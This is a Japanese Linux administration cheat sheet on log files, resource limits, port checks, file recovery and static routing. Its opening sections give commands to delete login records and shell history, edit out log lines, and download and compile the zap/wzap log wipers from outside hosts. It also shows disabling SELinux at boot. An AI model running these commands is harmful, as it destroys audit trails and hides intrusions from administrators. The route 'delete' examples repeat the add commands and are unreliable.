 ## 履歴削除

```
sudo rm /var/log/wtmp
sudo touch /var/log/wtmp
sudo rm /root/.bash_history
sudo rm /root/.viminfo
rm ~/.bash_history
rm ~/.viminfo
unset HISTFILE
```

### ログ

 ファイル名 | ログの用途                     | 主な格納先 | 格納タイプ
------------|--------------------------------|------------|------------
 utmp       | 現在のユーザー情報を記録       | /var/run   | バイナリ
 wtmp       | ログインの履歴を記録           | /var/log   | バイナリ
 lastlog    | ユーザーの最終ログイン時を記録 | /var/log   | バイナリ
 cron       | cronの実行結果を保存           | /var/log   | テキスト
 maillog    | メール関連                     | /var/log   | テキスト
 messages   | システムメッセージ、各種ソフト | /var/log   | テキスト
 secure     | セキュリティ関連               | /var/log   | テキスト
 xferlog    | ftp関連                        | /var/log   | テキスト

#### 改ざん

```
# テキスト系ファイルの改ざん
sed -e '/hogehoge/d' /var/log/messages > /tmp/messages

# zap2 で wtmp を改ざん
cd /tmp/
curl -LO http://www.kozupon.pgw.jp/download/wzap.c
gcc -o wzap wzap.c
./wzap
who ./wtmp.out
mv -f wtmp.out wtmp
chown root.utmp wtmp

# zap
curl -LO www.ussrback.com/UNIX/penetration/log-wipers/zap2.c
gcc -o zap zap2.c
./zap
```


## GRUB からselinux をOFFに

```
selinux=0 single
```
## システムリソースの上限を確認 (ulimit -a)

```
ulimit -a
# max memory size    = 物理メモリの使用サイズ上限
# open files         = ファイルディスクリプタ数の上限
# cpu time           = CPU時間の上限
# max user processes = プロセス数の上限
```

## ポートを使用しているプロセスを調査 (lsof)

```
sudo lsof -i:3306
```

## 疎通確認

```
## TCP 80
nc -z -w 5 -v www.example.com 80
## TCP 80-81
nc -z -w 5 -v www.example.com 80-81
## UDP 68
nc -u -z -w 5 -v www.example.com 68
```

## ファイルの復旧(ext3,4限定)

```
# 実行するとRECOVERED_FILES ディレクトリに復元ファイルができる
extundelete --after [unitxtime] --restore-all /dev/sda1
sudo extundelete /dev/sdc2 --after `date --date='2012-01-01 00:00' '+%s'`
```

## ネットワーク
### 静的ルーティング設定

```
# ルーティングテーブル表示
netstat -nr
```

#### routeコマンド

```
# network の追加
sudo route add -net 172.31.0.0 gw 10.13.0.145 netmask 255.255.0.0 eth0
# host の追加(eth0 の指定がなければ任意でルーティングが設定できるethで設定される)
sudo route add -host 172.31.0.10 gw 10.13.0.145 eth0

# network の削除
sudo route add -net 172.31.0.0 gw 10.13.0.145 netmask 255.255.0.0 eth0
# host の削除
sudo route add -host 172.31.0.10 gw 10.13.0.145 eth0
```

#### ipコマンド

```
# network の追加
sudo ip route add 172.31.0.0/16 via 10.13.0.145 dev eth0
# host の追加(/32で指定する)
sudo ip route add 172.31.0.10/32 via 10.13.0.145 dev eth0

# network の削除
sudo ip route del 172.31.0.0/16
# host の削除
sudo ip route del 172.31.0.10/32
```

#### 永続的な追加(Ubuntu)

##### /etc/network/if-up.d/static-routesで設定する方法
```
cat <<EOM > /etc/network/if-up.d/static-routes
#!/bin/sh
/sbin/route add -net 172.31.0.0 gw 10.13.0.145 netmask 255.255.0.0 dev eth0 // networkの場合
/sbin/route add -host 172.31.0.10 gw 10.13.0.145 eth0 // hostの場合
EOM
sudo chmod +x /etc/network/if-up.d/static-routes
```

##### /etc/network/interfacesに設定する方法

cat /etc/network/interfaces

```
# This file describes the network interfaces available on your system
# and how to activate them. For more information, see interfaces(5).

# The loopback network interface
auto lo
iface lo inet loopback

# The primary network interface
auto eth0
iface eth0 inet dhcp
    post-up route add -net 172.31.0.0/16 gw 10.13.0.145  // networkの場合
    post-up route add -host 172.31.0.10/32 gw 10.13.0.145  // hostの場合
```

#### 永続的な追加(CentOS)

```
cat /etc/sysconfig/network-scripts/route-eth0 
# Static route for metadata service
172.31.0.0/16 via 10.13.0.145 dev eth0 // networkの場合
172.31.0.10/32 via 10.13.0.145 dev eth0 // hostの場合

sudo service network restart
```
